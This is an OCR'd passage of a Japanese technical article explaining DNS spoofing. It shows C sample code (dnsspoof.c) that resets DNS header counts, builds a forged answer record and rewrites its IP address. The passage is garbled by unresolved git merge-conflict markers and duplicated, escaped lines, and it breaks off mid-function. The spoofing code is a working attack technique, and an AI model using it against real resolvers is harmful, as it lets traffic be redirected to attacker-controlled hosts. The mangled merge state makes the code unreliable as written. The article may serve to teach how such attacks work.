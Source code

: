 　サンプルコードの実装では以下のように各フィールドに値を設定します。

\-\-\-\-\- dnsspoof.c
/* DNSヘッダー再設定 */
dns\->ancount \= htons(1);
dns\->arcount \= 0;
dns\->nscount \= 0;
\-\-\-\-\-


- 4.4.6 IPアドレス書き換え
>>>>>>> 82c9994b6232b32daccdf031aaba412934bfa781

　回答RRに含まれるIPアドレスを書き換えることにより、スプーフィングの準備
は整います。質問RRと回答RRは可変長であるため、IPアドレスを書き込むメモリ
アドレスを正確に計算する必要があります。
　サンプルコードの実装では、以下のようにして回答RRの書き換えと送信を行い
ました。

<<<<<<< HEAD
----- dnsspoof.c
=======
\-\-\-\-\- dnsspoof.c
>>>>>>> 82c9994b6232b32daccdf031aaba412934bfa781
     1  static int
     2  send_dnsans(struct ip *ip, int spoof, HEADER *dns, QFOOTER *qf, int qnamelen)
     3  {
     4          struct sockaddr_in sin;
     5          struct udphdr *udp;
     6          char *ansptr;                       /* DNS回答書き込みポインタ  */
     7          char *addrptr;                      /* アドレス書き込みポインタ */
<<<<<<< HEAD
     8          int dnspacketsize = 0;
     9          char dnscode[] =
=======
     8          int dnspacketsize \= 0;
     9          char dnscode[] \=
>>>>>>> 82c9994b6232b32daccdf031aaba412934bfa781
    10                          "\xc0\x0c"         /* ホスト名へのオフセット */
    11                          "\x00\x01"         /* Type A                 */
    12                          "\x00\x01"         /* Class IN               */
    13                          "\x00\x00\x07\x08" /* TTL                    */
    14                          "\x00\x04";        /* Length                 */
    15
<<<<<<< HEAD
    16          udp = (struct udphdr *)((char *)ip + (ip->ip_hl<<2));
    17
    18          memset(&sin, 0, sizeof(struct sockaddr_in));
    19          sin.sin_family = AF_INET;
    20          sin.sin_addr = ip->ip_dst;
    21          sin.sin_port = udp->uh_dport;
    22
    23          /* アドレス書き換え */
    24          if (spoof) {
    25                  dnspacketsize = sizeof(struct udphdr) + sizeof(HEADER) +
    26                                   qnamelen + sizeof(QFOOTER) + sizeof(dnscode) + 4;
    27                  /* DNSヘッダー再設定 */
    28                  dns->ancount = htons(1);
    29                  dns->arcount = 0;
    30                  dns->nscount = 0;
    31
    32                  /* 回答へのポインタ */
    33                  ansptr = (char *)((char *)qf + sizeof(QFOOTER));
    34                  /* アドレスフィールドへのポインタ */
    35                  addrptr = ansptr + sizeof(dnscode);
    36                  /* 回答書き換え */